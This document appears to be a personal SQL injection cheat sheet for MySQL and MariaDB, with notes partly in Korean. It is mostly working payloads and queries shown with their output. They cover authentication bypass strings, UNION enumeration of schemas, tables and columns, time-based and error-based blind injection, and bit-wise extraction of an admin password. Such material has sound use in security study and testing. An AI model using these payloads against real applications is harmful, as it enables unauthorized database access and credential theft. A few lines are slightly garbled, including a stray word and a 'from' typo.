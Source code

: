 # SQL injection

### Express string   
select admin;   
select 'ad''min'; -> ad'min   
select 'ad' 'min'; -> admin   
select 0x6162; -> ab   
select char(0x61, 0x62); -> ab   
select 0b110000101100010; -> ab   
select concat(char(0x61),char(0x62)); -> ab   
select mid(@@version,12,1); -> n 가젯   
select unhex(unhex(36313632)); -> ab   
<hr>

### Useful Functions
* string   
  * substring(), substr(), mid() # select mid('admin',3,2); -> mi   
  * left() # select left('admin',2); -> ad
  * right() # select right('admin',2); -> in
  * concat() # select concat('ad','min'); -> admin
  * group_concat() # select group_concat('ad','min'); -> admin
  * instr() # select instr('hi\~\~! hello!!!','hello'); -> 7
  * length() # select length('hello!'); -> 6
  * lpad() # select lpad('admin',1,1)='a'; -> TRUE
  * rpad() # select rpad('admin',1,1)='a'; -> True
  * ord() # select ord('a'); -> 97
  * ascii() # select ascii('a'); -> 97
  * hex() # select hex('a'); -> 0x61
  * char() # select char(0x61); -> a
* typecast
  * convert() # select convert('admin',binary(1)); -> a
  * cast() # select cast('admin' as char(1)); -> a
* etc
  * version() # select version(); -> 5.7.31-0ubuntu0.16.04.1 
  * user() # select user(); -> user@localhost
  * schema(), database() #select schema(); -> database_name
  * sleep() # select sleep(3); -> 1 row in set (3.00 sec)
<hr>

### Basic SQL Injection
'   
' or '1==1'#   
' or '1'='1   
' or 1=1#
<hr>

### Union SQL Injection
union select schema_name from information_schema.schemata;   
union select table_name from information_schema.tables where table_schema="db_schema";   
union select table_name from information_schema.tables where table_schema=database();   
union select column_name from information_schema.columns where table_name="table_name";
<hr>

### Time-based SQL Injection
select 'a'='a' and sleep(1); # 1 row in set (1.00 sec)   
select 'a'='b' and sleep(1); # 1 row in set (0.00 sec)   
select 'a'='a' and benchmark(10000000,md5('a')); // 1 row in set (3.017 sec)   
select 'a'='b' and benchmark(10000000,md5('a')); // 1 row in set (1.565 sec)   
<hr>

### Error-based : Data extraction with error message
select * from users union select foo(); # FUNCTION test.foo does not exist   
select * from users where exp(~id); # DOUBLE value is out of range in 'exp(~\`test\`.\`users\`.\`id\`)'   
select * from users where extractvalue(1,concat(0x3a,version())); #XPATH systax error: '10.4.6-MariaDB'   
<hr>

### Error-based : Blind SQL Injection
서브 쿼리에서 2개 이상의 row를 리턴하면 에러가 발생하는 점을 이용해서 공격   
select if('a'='b',1,(select 1 union select 2)); # error -> Subquery returns more than 1 row
select if('a'='a',1,(select 1 union select 2)); ok   
select case when 1=1 then (select 1 union select 2) else 1 end; # error   
select case when 1=0 then (select 1 union select 2) else 1 end; # ok   

BIGINT overflow   
select ~0+(select 'a'='a'); # error -> ERROR 1690 (22003): BIGINT UNSIGNED value is out of range in '~0 + ('a' = 'a')'   
select ~0+(select 'a'='b'); # ok   

cot함수 인자로 False가 들어가면 에러가 발생하는 것을 이용해서 공격
select cot(1=0); # error (DOUBLE value is out of range in 'cot(1 = 0)')   
select cot(1=1); # ok   

order by 뒤에 숫자 늘리면서 에러로 컬럼 수 파악   
select * from users order by \[컬럼 개수\]; # 컬럼 개수 늘려가면서 에러로 개수 파악
select * from users order by 1; # ok   
select * from users order by 2; # ok   
select * from users order by 3; # error -> users 테이블의 컬럼 개수는 2개인 것   
<hr>

### Blind SQL Injection
Binary Search   
select * from users where username='admin' and ascii(substr(password,1,1))>79;   
Bit 연산   
select * from users where username='admin' and substr(bin(ord(password)),1,1)=1;   
select * form users where username='admin' and substr(bin(ord(password)),2,1)=1;   
<hr>

### Filter Bypass
[Filter Bypass](https://github.com/zzsla/security/blob/main/cheat_sheet/SQL%20injection/Filter%20Bypass.md)
